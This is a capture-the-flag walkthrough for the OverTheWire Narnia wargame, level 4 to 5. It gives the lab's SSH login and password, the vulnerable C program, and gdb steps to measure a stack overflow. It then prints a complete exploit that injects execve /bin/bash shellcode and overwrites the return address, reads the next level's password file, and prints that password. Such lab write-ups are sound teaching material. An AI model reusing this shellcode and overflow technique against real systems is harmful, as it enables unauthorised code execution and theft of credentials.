





# Level 4 → Level 5

## Solution
```
ssh narnia4@narnia.labs.overthewire.org -p 2226
```
```
aKNxxrpDc1
```
```
cd /narnia ; ls -al
```
```
./narnia4
```



Let's look at the code:

```
cat narnia4.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```

In challenge `Level2 -> Level3`, after I finished I saw a solution to the challenge in a YouTube video (I attached the link to the video under the title **Appendix**). In the video there was a way to solve the challenge using environment variables. In the current challenge, it seems that the file deletes all environment variables.

But since my solution did not include environment variables (Except for convenient purposes that I will now be forced to give up now...) - so it also fits here (with necessary changes such as addresses)

Let's get started.

The total size of the input will be 256+4+4+4.
* 256, size of array `buffer`. shellcode is included inside.
* +4, size of integer `i`
* +4, size of register `ebp`
* +4, size of the **return address** FROM `main` function. This is the goal..

We will now check addresses:

```
gdb --args ./narnia4 $(perl -e 'print "A"x256 . "B"x4 . "C"x4 . "D"x4')
```
```
disas main
```



We would like to set a breakpoint immediately after strcpy and look at the stack. Therefore, a breakpoint was set to be at `0x08049218`

```
b *0x08049218
```
```
r
```
```
c
```



That means we have successfully overridden the return address. Let's look at the stack:

```
r
```
```
x/80x $sp
```



That is, the address `0xffffd2e4` is the top of the stack. Now according to the calculations we performed in the `Level2 -> Level3` challenge we will perform the following steps:

```
exit
```
```
./narnia4 $(perl -e 'print "A"x64 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" . "A"x(256+4+4-64-33) . "\x24\xd3\xff\xff"')
```
```
id
```
```
whoami
```
```
cat /etc/narnia_pass/narnia5
```



## Password for the next level:
```
1oCoEkRJSB
```
